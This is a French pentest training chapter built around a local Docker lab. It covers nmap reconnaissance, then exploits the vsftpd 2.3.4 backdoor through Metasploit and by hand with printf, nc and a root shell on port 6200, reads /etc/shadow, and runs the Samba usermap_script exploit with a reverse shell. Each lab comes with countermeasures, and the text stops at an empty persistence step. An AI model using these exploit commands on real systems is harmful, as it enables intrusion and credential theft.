








# Chapitre 02 : Tests de pénétration et exploitation — Techniques de hacking et contre-mesures - Niveau 1

---

## Objectifs pédagogiques

- Construire une kill chain ATT&CK complète (reconnaissance → persistance)
- Mapper les méthodologies OWASP/PTES sur les tactiques ATT&CK
- Réaliser une reconnaissance réseau complète avec nmap ([T1046](https://attack.mitre.org/techniques/T1046/))
- Exploiter vsftpd 2.3.4 et Samba 3.0.20 avec Metasploit
- Obtenir un shell root et mettre en place une persistance ([TA0003](https://attack.mitre.org/tactics/TA0003/))

---

## Introduction

Un pentest n'est pas du "cassage" hasardeux. C'est une démarche méthodique en 7 phases, exigée par la réglementation (RGS, NIS2) pour toute administration manipulant des données sensibles. Le rapport de pentest est un **livrable réglementaire** qui conditionne l'homologation de sécurité du système.

Dans ce chapitre, vous construirez votre première kill chain ATT&CK complète : chaque phase de la reconnaissance à la persistance sera taguée avec sa tactique et sa technique.

> **Sources :** [PTES Technical Guidelines](https://www.pentest-standard.org/). [RGS v2.0 — ANSSI](https://www.ssi.gouv.fr/rgs).

---

## 1. Méthodologies de pentest et ATT&CK


**Fig 6** — Les 5 phases PTES : de la reconnaissance passive à la post-exploitation, avec correspondance aux tactiques MITRE ATT&CK.



Fig 6b — PTES structure et standardise le pentest : reproductible, traçable, conforme aux exigences réglementaires (RGS, NIS2).

### 1.1 OWASP — Open Web Application Security Project

L'**OWASP** (Open Web Application Security Project) est une fondation à but non lucratif qui publie le standard de facto pour la sécurité des applications web. Son livrable le plus connu est le **OWASP Top 10** — le classement des 10 vulnérabilités web les plus critiques, mis à jour tous les 3-4 ans.



*OWASP — Référence mondiale en sécurité applicative*


**OWASP Top 10 2021** — Les méthodes OWASP (guides, cheatsheets, outils comme ZAP) sont utilisées en complément du référentiel MITRE ATT&CK : ATT&CK décrit *qui* attaque *comment* (TTPs), OWASP décrit *quoi* corriger (vulnérabilités).

| Référentiel | Usage | Publie |
|---|---|---|
| **MITRE ATT&CK** | Cartographie des techniques adverses (langage commun) | Tactiques, techniques, procédures |
| **OWASP** | Sécurisation des applications web | Top 10, guides, outils (ZAP, SAMM) |
| **PTES** | Méthodologie de test de pénétration | Phases de pentest, livrables |

### Kill chain du jour



**Fig 7** — Kill chain du jour 2 : Reconnaissance nmap, exploitation vsftpd 2.3.4, shell root, persistance SSH.

---

## 2. Reconnaissance — [TA0007](https://attack.mitre.org/tactics/TA0007/) Discovery

La reconnaissance est la phase la plus importante : 70% du temps d'un pentest. Elle détermine la surface d'attaque.

```bash
# === Reconnaissance passive (sans toucher la cible) ===

# Requête WHOIS : obtient le propriétaire, les serveurs DNS, les dates d'enregistrement du domaine
whois <DOMAINE>

# Certificate Transparency : interroge crt.sh pour lister tous les sous-domaines connus via les certificats TLS émis
# -s : mode silencieux (pas de barre de progression curl)
# %25. : wildcard encodé (%) devant le domaine pour rechercher tous les sous-domaines
# jq = processeur JSON en ligne de commande. '.[]' parcourt chaque élément du tableau. '.name_value' extrait ce champ.
# sort -u : trie et dédoublonne la liste des sous-domaines
curl -s "https://crt.sh/?q=%25.<DOMAINE>&output=json" | jq '.[].name_value' | sort -u

# === Reconnaissance active (scan direct de la cible) ===

# Scan nmap exhaustif : tous les ports TCP, détection de version et scripts NSE par défaut
# -sV : détection des versions des services (bannières, probes)
# -sC : exécute les scripts NSE (Nmap Scripting Engine) par défaut (safe, discovery)
# -p- : scan tous les ports TCP (1-65535)
# -oA recon/full : sortie dans les 3 formats (normal .nmap, XML .xml, greppable .gnmap) avec le préfixe recon/full
nmap -sV -sC -p- <IP> -oA recon/full

# Scan nmap ciblé vulnérabilités : exécute la catégorie de scripts NSE "vuln" pour détecter des CVE connues
# --script vuln : exécute tous les scripts NSE de la catégorie vulnérabilités
# -oA recon/vuln : sortie dans les 3 formats avec le préfixe recon/vuln
nmap --script vuln <IP> -oA recon/vuln

# Scan nmap spécifique FTP : exécute tous les scripts NSE commençant par "ftp-" (ftp-anon, ftp-vsftpd-backdoor, etc.)
# --script ftp-* : wildcard pour tous les scripts NSE dont le nom commence par "ftp-"
nmap --script ftp-* <IP>
```

---

## 2. Rappels réseaux — Les fondamentaux pour le pentest

Cette section est un mémo des concepts réseau indispensables pour les labs de la journée. Si vous maîtrisez déjà ARP, TCP/UDP et le routage, passez directement au Lab 2.1.

### ARP — Address Resolution Protocol

ARP résout une adresse IP en adresse MAC sur un réseau local. Quand une machine A veut parler à B, elle :
1. Diffuse un broadcast : "Qui a l'IP X.X.X.X ?"
2. B répond : "C'est moi, ma MAC est XX:XX:XX:XX:XX:XX"
3. La table ARP locale garde cette correspondance en cache

```bash
# 📌 Visualiser la table ARP sur Kali
arp -n
# → 172.17.0.2    xx:xx:xx:xx:xx:xx    (l'option -n masque les noms d'hôtes)
#   172.17.0.3    xx:xx:xx:xx:xx:xx

# 🔍 arp -n = affiche la table ARP sans résoudre les noms d'hôtes (-n)
# Chaque ligne = une correspondance IP ↔ MAC connue
```

**Lien avec le lab 2.5 :** L'ARP poisoning (empoisonnement de la table ARP) force la cible à associer l'IP de la passerelle à la MAC de l'attaquant. Tout le trafic passe par l'attaquant (MITM).

### TCP et UDP — Ports et services

Un service réseau écoute sur un **port** (16 bits, 0-65535). Les ports 0-1023 sont dits "well-known" :

| Port | Service | Protocole | Lab |
|------|---------|-----------|-----|
| 21 | FTP | TCP | 2.2 — vsftpd |
| 22 | SSH | TCP | 2.1 — Scan |
| 80/443 | HTTP/HTTPS | TCP | 2.5 — ARP |
| 445 | SMB | TCP | 2.3 — Samba |
| 3306 | MySQL | TCP | 2.1 — Scan |

```bash
# 📌 Vérifier les ports ouverts en écoute sur Kali
ss -tlnp
# 🔍 ss = socket statistics (remplace netstat)
# 🔍 -t = TCP, -l = listening, -n = numérique, -p = programme

# 📌 Scanner un port spécifique avec nc (netcat)
nc -zv localhost 8088
# 🔍 -z = zero-I/O (test seulement), -v = verbose
# → localhost:8088 open  (le port est ouvert)
```

### Réseau Docker du lab

Tous les conteneurs (dvwa, vsftpd, buffovf, etc.) sont sur le même réseau bridge `pentest-lab`. Kali (l'hôte) est la passerelle :

```text
┌─────────┐     ┌──────────┐     ┌──────────┐
│  Kali   │─────│ dvwa     │     │ vsftpd   │
│  hôte   │     │ 172.17.0.2│     │ 172.17.0.3│
│ .1      │     └──────────┘     └──────────┘
└─────────┘
```

```bash
# 📌 Lister les conteneurs et leurs IP
# docker inspect = extrait la config réseau complète
# grep -E '"IPAddress"' = ne garde que la ligne contenant "IPAddress" avec guillemets
# awk -F'"' '{print $4}' = extrait la valeur entre guillemets
for c in dvwa-target vsftpd-target; do
  echo "$c → $(docker inspect $c | grep -E '"IPAddress"' | awk -F'"' '{print $4}' | tail -1)"
done
# → dvwa-target → 172.17.0.2
# → vsftpd-target → 172.17.0.3
```

**Règle pratique :** Les conteneurs se joignent par leur nom (`dvwa-target` → `172.17.0.2`). Kali voit les conteneurs et les conteneurs voient Kali. Les conteneurs ont accès à Internet via le NAT de l'hôte (sauf si un proxy est configuré).

### 3-way handshake TCP

```text
Client                    Serveur
  │                         │
  │──── SYN ──────────────► │
  │◄─── SYN/ACK ────────── │
  │──── ACK ──────────────► │
  │                         │
  │◄─── Données (HTTP) ──── │
```

**Utile pour nmap :**
- `-sS` (SYN scan) : envoie un SYN, si SYN/ACK → port ouvert, si RST → fermé
- `-sT` (TCP connect) : complète le handshake (plus bruyant)
- `-sN` (NULL scan) : envoie un paquet sans flags — passe certains firewalls

```bash
# 📌 Comparer les types de scan nmap
nmap -sS localhost  # SYN stealth scan (par défaut root)
nmap -sT localhost  # TCP connect scan (si non-root)
```

---

## Lab 2.1 — Reconnaissance du conteneur Metasploitable

### Fiche

| Durée | Conteneur | Dossier | Tactique ATT&CK |
|---|---|---|---|
| 45 min | vsftpd (Metasploitable 2) | `rendu_labs/jour-02/` | [TA0007](https://attack.mitre.org/tactics/TA0007/) → [T1046](https://attack.mitre.org/techniques/T1046/) |

### Contexte métier

Un pentest commence toujours par un scan exhaustif. Le client attend la liste complète des services exposés avec leurs versions. C'est la base du rapport.

### Étape 1 — Scan complet — [T1046](https://attack.mitre.org/techniques/T1046/) Network Service Scanning

```bash
# Création du dossier de reconnaissance et déplacement dedans
# mkdir -p : crée les dossiers parents si nécessaire, pas d'erreur si le dossier existe déjà
# && : la commande suivante ne s'exécute que si la première réussit
mkdir -p rendu_labs/jour-02/recon && cd rendu_labs/jour-02

# Scan nmap exhaustif sur localhost (Metasploitable mappé en port forwarding)
# ATTENTION : -p- scanne tous les 65535 ports TCP, peut prendre 20-30 minutes.
# Pour un scan rapide en formation, utilisez -p 21,22,80,445,3306,5432 à la place.
# -sV : détection des versions des services (envoie des probes spécifiques par port)
# -sC : exécute les scripts NSE par défaut (safe + discovery)
# -p- : scan tous les 65535 ports TCP (sans cette option, seuls les 1000 ports les plus courants sont scannés)
# -oA recon/full_scan : génère 3 fichiers de sortie (.nmap, .xml, .gnmap) dans le dossier recon/
# 2>&1 : redirige stderr vers stdout pour tout capturer dans le tee
# | tee recon/scan.txt : affiche la sortie ET l'enregistre dans recon/scan.txt
nmap -sV -sC -p- localhost -oA recon/full_scan 2>&1 | tee recon/scan.txt
```

Résultat attendu :

```console
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1
80/tcp   open  http        Apache httpd 2.2.8
445/tcp  open  netbios-ssn Samba smbd 3.0.20
3306/tcp open  mysql       MySQL 5.0.51a
5432/tcp open  postgresql  PostgreSQL DB 8.3.0
```

**Checkpoint A :** 6+ ports ouverts identifiés avec leurs versions.

### Étape 2 — Scan de vulnérabilités ciblé — [T1046](https://attack.mitre.org/techniques/T1046/) Network Service Scanning

```bash
# Scan nmap ciblé : détecte la backdoor vsftpd 2.3.4 (port 6200) via le script NSE dédié
# --script ftp-vsftpd-backdoor : script NSE qui teste si le serveur FTP est vulnérable à la CVE-2011-2523
# -p 21 : limite le scan au port FTP uniquement
# | tee recon/vsftpd.txt : affiche ET sauvegarde la sortie pour le rapport
nmap --script ftp-vsftpd-backdoor -p 21 localhost | tee recon/vsftpd.txt

# Scan nmap ciblé : tous les scripts NSE de vulnérabilités SMB connues (smb-vuln-ms08-067, smb-vuln-ms17-010, etc.)
# --script "smb-vuln*" : wildcard pour exécuter tous les scripts NSE dont le nom commence par "smb-vuln"
# -p 445 : limite le scan au port SMB (microsoft-ds)
nmap --script "smb-vuln*" -p 445 localhost | tee recon/smb.txt
```

### Étape 3 — Script de reconnaissance automatisé — [T1046](https://attack.mitre.org/techniques/T1046/) Network Service Scanning

```bash
# Déplacement dans le dossier de travail du lab
cd rendu_labs/jour-02

# Création du script de reconnaissance automatisé via heredoc
# cat > fichier << 'SCRIPT_EOF' : écrit tout ce qui suit jusqu'au marqueur SCRIPT_EOF dans le fichier recon.sh
# Les guillemets simples autour de SCRIPT_EOF empêchent l'expansion des variables dans le heredoc
cat > recon.sh << 'SCRIPT_EOF'
#!/bin/bash
# Horodatage du dossier de sortie pour éviter d'écraser les scans précédents
# date +%H%M : heure et minute actuelles (ex: 1435 pour 14h35)
OUTDIR="recon/$(date +%H%M)"
# Création du dossier de sortie horodaté (-p : crée les parents si nécessaire)
mkdir -p "$OUTDIR"
# Scan nmap des 6 ports critiques identifiés précédemment (évite de rescanner 65535 ports)
# -sV : détection de version des services
# -sC : scripts NSE par défaut (safe + discovery)
# -p 21,22,80,445,3306,5432 : ports FTP, SSH, HTTP, SMB, MySQL, PostgreSQL
# -oA "$OUTDIR/ports" : sortie 3 formats dans le dossier horodaté
nmap -sV -sC -p 21,22,80,445,3306,5432 localhost -oA "$OUTDIR/ports"
# Scan de la backdoor vsftpd 2.3.4 (CVE-2011-2523) sur le port FTP
nmap --script ftp-vsftpd-backdoor -p 21 localhost -oA "$OUTDIR/vsftpd"
# Scan des vulnérabilités SMB connues (EternalBlue, Samba usermap, etc.)
nmap --script "smb-vuln*" -p 445 localhost -oA "$OUTDIR/smb"
# Confirmation visuelle : affiche l'emplacement des résultats et le contenu du dossier
# [+]: préfixe conventionnel en pentest pour signaler une action réussie
# ls -la = liste détaillée (-l) de tous les fichiers y compris les fichiers cachés (-a)
echo "[+] Résultats dans $OUTDIR/" && ls -la "$OUTDIR/"
SCRIPT_EOF

# Rend le script exécutable (+x) puis l'exécute immédiatement
# chmod +x : ajoute le bit d'exécution pour le propriétaire, le groupe et les autres
chmod +x recon.sh && ./recon.sh
```

> **📌 À retenir :** On a réalisé un scan nmap exhaustif avec détection de versions (-sV) et scripts NSE pour cartographier la surface d'attaque du conteneur Metasploitable. C'est la première phase de toute kill chain — sans cette cartographie, on ne peut pas choisir ses exploits.  
> **Attendu :** 6+ ports ouverts identifiés (21, 22, 80, 445, 3306, 5432) avec leurs versions exactes.  
> **Défense :** Limiter les ports exposés en production (firewall, principe des moindres privilèges réseau).

### Résultat attendu

- [ ] Fichier `recon/scan.txt` contenant les 6+ ports ouverts avec leurs versions
- [ ] Script NSE vsftpd-backdoor : détection de la backdoor CVE-2011-2523 (ou absence)
- [ ] Script NSE smb-vuln* : détection des vulnérabilités Samba
- [ ] Script `recon.sh` automatisé exécuté sans erreur
- [ ] Comprendre la différence entre scan complet (`-p-`) et scan ciblé (`-p 21,22,...`)
- [ ] Savoir interpréter un rapport nmap : port, état, service, version, script NSE

### 🔒 Contre-mesure ([M1031](https://attack.mitre.org/mitigations/M1031/) Network Intrusion Prevention + [M1037](https://attack.mitre.org/mitigations/M1037/) Filter Network Traffic)

**Objectif :** Réduire la surface d'attaque pour empêcher la reconnaissance ennemie.

| Mitigation | Action |
|---|---|
| [**M1037**](https://attack.mitre.org/mitigations/M1037/) Filter Network Traffic | `ufw default deny incoming` — limiter les ports exposés |
| [**M1031**](https://attack.mitre.org/mitigations/M1031/) Network Intrusion Prevention | Snort/Suricata — détecter les patterns de scan nmap |
| [**M1042**](https://attack.mitre.org/mitigations/M1042/) Disable or Remove Feature or Program | Désactiver les services inutiles (Telnet, FTP si non nécessaire) |

```bash
# Simulation de durcissement : désactiver les services superflus
docker exec vsftpd-target bash -c "
  apt-get update -qq 2>/dev/null
  echo 'Les services suivants devraient être désactivés en production :'
  ss -tulpn | grep -E '23|25|110|143|6667' | awk '{print \$1, \$5}'
"
```

**Résultat attendu :** La liste des services exposés est réduite au strict nécessaire. Un scan nmap post-durcissement montre moins de ports ouverts.

---

## Lab 2.2 — Exploitation vsftpd 2.3.4 (Backdoor)

### Fiche

| Durée | Conteneur | Technique ATT&CK |
|---|---|---|
| 40 min | vsftpd (port 21 → backdoor port 6200) | [T1190](https://attack.mitre.org/techniques/T1190/) Exploit Public-Facing App — CVE-2011-2523 |

### Contexte technique

En 2011, le code source de vsftpd 2.3.4 a été compromis : un nom d'utilisateur contenant `:)` ouvre silencieusement un shell root sur le port 6200. Ce type de backdoor (supply chain attack) est toujours d'actualité — l'attaque SolarWinds (2020) suivait exactement le même principe.



**Fig 8** — Flux d'exploitation vsftpd 2.3.4 : le backdoor s'active sur `USER user:)`, ouvrant le port 6200 pour un shell root.

### Étape 1 — Exploitation Metasploit — [T1190](https://attack.mitre.org/techniques/T1190/) Exploit Public-Facing Application

Dans un terminal Kali :

```bash
# Lancement de Metasploit avec l'exploit vsftpd 2.3.4 en une seule commande (non-interactive)
# -q : mode quiet (supprime la bannière ASCII et les messages de démarrage)
# -x : exécute la chaîne de commandes Metasploit fournie, puis quitte
# use exploit/unix/ftp/vsftpd_234_backdoor : charge l'exploit CVE-2011-2523 (backdoor supply chain)
# set RHOSTS localhost : définit la cible distante (localhost car le port du conteneur est mappé)
# set RPORT 21 : définit le port distant cible (port FTP standard)
# run : exécute l'exploit (alias de exploit)
msfconsole -q -x "use exploit/unix/ftp/vsftpd_234_backdoor; set RHOSTS localhost; set RPORT 21; run"
```

Sortie attendue :

```console
[*] Banner: 220 (vsFTPd 2.3.4)
[+] Backdoor service has been spawned, handling...
[+] UID: uid=0(root) gid=0(root)
[*] Command shell session 1 opened
```

**Checkpoint :** `uid=0(root)` — shell root direct, pas d'escalade nécessaire.

### Étape 2 — Exploitation manuelle — [T1190](https://attack.mitre.org/techniques/T1190/) Exploit Public-Facing Application

```bash
# Déclenchement manuel de la backdoor vsftpd 2.3.4 : envoi d'un nom d'utilisateur contenant ":)"
# printf formate la séquence FTP brute : "user :)\r\n" = USER suivi du smiley (\r\n = CRLF, fin de ligne FTP)
# "pass x\r\n" : mot de passe bidon, obligatoire pour compléter l'authentification FTP
# | nc localhost 21 : envoie ces données brutes sur le port FTP
# > /dev/null 2>&1 : ignore toute sortie (stdout et stderr) pour ne pas polluer le terminal
# & : exécute en arrière-plan pour ne pas bloquer le terminal
printf "user :)\r\npass x\r\n" | nc localhost 21 > /dev/null 2>&1 &

# Pause de 2 secondes pour laisser le temps au backdoor d'ouvrir le port 6200 sur la cible
# sleep 2 = met en pause l'exécution pendant 2 secondes (laisse le temps au backdoor d'ouvrir le port 6200)
sleep 2

# Connexion au shell root ouvert par la backdoor sur le port 6200
# nc (netcat) en mode interactif : tout ce que vous tapez est envoyé à la cible, les réponses s'affichent
nc localhost 6200

# Une fois connecté sur le port 6200, tapez dans la session nc :
# whoami
# → root
```

### Étape 3 — Post-exploitation — [T1059.004](https://attack.mitre.org/techniques/T1059/004/) Unix Shell

**Ces commandes s'exécutent DANS le shell root obtenu à l'étape précédente** (session Metasploit ou connexion manuelle), PAS dans votre terminal Kali.

```bash
# whoami : affiche l'utilisateur courant — doit retourner "root" (preuve de l'exploitation réussie)
whoami

# hostname : affiche le nom d'hôte — ici l'ID du conteneur Docker (Metasploitable)
hostname

# uname -a : affiche toutes les informations du noyau Linux (version, architecture, date de compilation)
# Permet d'identifier la version exacte du kernel pour rechercher des exploits d'escalade (si nécessaire)
uname -a

# Extraction des 5 premiers hashs du fichier /etc/shadow (mots de passe chiffrés des utilisateurs)
# cat /etc/shadow : lit le fichier des hashs (lisible uniquement par root)
# | head -5 : limite l'affichage aux 5 premières lignes pour ne pas submerger le terminal
cat /etc/shadow | head -5

# ss -tulpn : liste tous les sockets en écoute (services internes accessibles depuis le conteneur)
# -t : sockets TCP
# -u : sockets UDP
# -l : uniquement les sockets en écoute (listening)
# -p : affiche le PID et le nom du processus propriétaire
# -n : affiche les adresses en numérique (évite la résolution DNS, plus rapide)
ss -tulpn
```

**Checkpoint :** `uid=0(root)` — shell root direct, pas d'escalade nécessaire.

### 🔒 Contre-mesure (M1051 Update Software + M1013 App Hardening)

Le backdoor vsftpd 2.3.4 (CVE-2011-2523) est un **supply chain attack** : le code source a été compromis avant compilation. La correction :

| Contre-mesure | Action |
|---|---|
| **M1051** Mise à jour | `apt-get upgrade vsftpd` → version 3.0+ (non affectée) |
| **M1043** Integrity Check | Vérifier la signature GPG du paquet avant installation |
| **M1035** Least Privilege | `chmod -s /opt/vuln` — retirer le bit setuid |

```bash
# Simuler la mise à jour de vsftpd dans le conteneur
docker exec vsftpd-target bash -c "
  apt-get update -qq 2>/dev/null
  # Vérifier qu'aucun binaire backdoor n'écoute sur un port suspect
  ss -tulpn | grep -v '21\|22\|80\|445\|3306\|5432'
"
# Re-tester le backdoor vsftpd après mise à jour :
printf "user :)\r\npass x\r\n" | nc -w2 localhost 21 > /dev/null 2>&1
nc -z -w2 localhost 6200 && echo "ALERTE: backdoor actif" || echo "✓ Backdoor neutralisé"
# → ✓ Backdoor neutralisé  (la mise à jour a corrigé la CVE-2011-2523)
```

> **Checkpoint défensif :** Après mise à jour, le port 6200 ne s'ouvre plus.

> **📌 À retenir :** On a exploité la backdoor vsftpd 2.3.4 (CVE-2011-2523) via Metasploit et manuellement, obtenant un shell root direct sur le port 6200. Ce scénario illustre une attaque de supply chain toujours d'actualité.  
> **Attendu :** Shell root obtenu (uid=0) — pas d'escalade de privilèges nécessaire.  
> **Défense :** Mettre à jour vsftpd (version 3.0+ non affectée), vérifier l'intégrité des paquets (signature GPG).

### Résultat attendu

- [ ] Metasploit : session shell ouverte, `uid=0(root)` affiché
- [ ] Exploitation manuelle : `printf "user :)\r\n..."` → `nc localhost 6200` → shell root
- [ ] Post-exploitation : `whoami` → `root`, `cat /etc/shadow | head -5` fonctionne
- [ ] Contre-mesure : mise à jour vsftpd → backdoor neutralisée (port 6200 fermé)
- [ ] Comprendre le mécanisme d'une backdoor supply chain (CVE-2011-2523)
- [ ] Savoir utiliser msfconsole en mode non-interactif (`-x`) et interactif

---

## Lab 2.3 — Exploitation Samba + Kill Chain complète

### Fiche

| Durée | Conteneur | Techniques |
|---|---|---|
| 50 min | vsftpd (port 445) | [T1210](https://attack.mitre.org/techniques/T1210/) + [T1059.004](https://attack.mitre.org/techniques/T1059/004/) + [T1098.004](https://attack.mitre.org/techniques/T1098/004/) — CVE-2007-2447 |

### Contexte technique

Samba 3.0.20 (CVE-2007-2447) a un `usermap` script vulnérable : les métacaractères shell dans le nom d'utilisateur sont exécutés. C'est une **command injection** dans un service réseau — même principe que le lab DVWA du J1, mais sur un service SMB.



**Fig 8c** — Exploitation Samba usermap_script (CVE-2007-2447) : le pipe `|` dans le nom d'utilisateur SMB est passé à `usermap` → exécution de commande → reverse shell root.

### Étape 1 — Exploitation Samba — [T1210](https://attack.mitre.org/techniques/T1210/) Exploit Remote Services

Dans un terminal Kali :

```bash
# Récupération automatique de l'adresse IP Kali sur l'interface docker0 (réseau bridge Docker)
# ip addr show docker0 : affiche la configuration de l'interface docker0 (passerelle du réseau Docker)
# 2>/dev/null : supprime les erreurs si l'interface docker0 n'existe pas
# grep 'inet ' : filtre la ligne contenant l'adresse IPv4 (espace après inet pour éviter inet6)
# awk '{print $2}' : extrait le 2e champ (ex: 172.17.0.1/16)
# cut -d/ -f1 : supprime le masque CIDR (/16) pour ne garder que l'IP (ex: 172.17.0.1)
LHOST=$(ip addr show docker0 2>/dev/null | grep 'inet ' | awk '{print $2}' | cut -d/ -f1)

# Exploitation Samba 3.0.20 via CVE-2007-2447 (usermap script command injection)
# -q : mode quiet (supprime la bannière Metasploit)
# -x : exécute les commandes Metasploit en une ligne (mode non-interactif)
# use exploit/multi/samba/usermap_script : charge l'exploit de command injection dans le script usermap
# set RHOSTS localhost : cible distante (le conteneur Metasploitable mappé sur localhost)
# set RPORT 445 : port SMB standard (microsoft-ds)
# set LHOST $LHOST : adresse IP Kali pour le shell reverse (payload bind/reverse)
# run : exécute l'exploit et tente d'obtenir un shell
msfconsole -q -x "use exploit/multi/samba/usermap_script; set RHOSTS localhost; set RPORT 445; set LHOST $LHOST; run"

# [*] Command shell session 2 opened
# Dans le shell Metasploit, tapez :
# whoami
# → root
```

### Étape 2 — Comparaison des deux exploits

| | vsftpd 2.3.4 | Samba 3.0.20 |
|---|---|---|
| Service | FTP (21) | SMB (445) |
| ATT&CK | [T1190](https://attack.mitre.org/techniques/T1190/) | [T1210](https://attack.mitre.org/techniques/T1210/) |
| Tactique | Initial Access | Lateral Movement |
| Mécanisme | Backdoor binaire | Command injection |
| Impact | root direct | root direct |

### Étape 3 — Persistance — [T1098.004](https://attack.mitre.org/techniques/T1098/004/) SSH Authorized Keys

**Dans le shell root obtenu via l'exploit Samba (Étape 1 ci-dessus)**, exécutez :



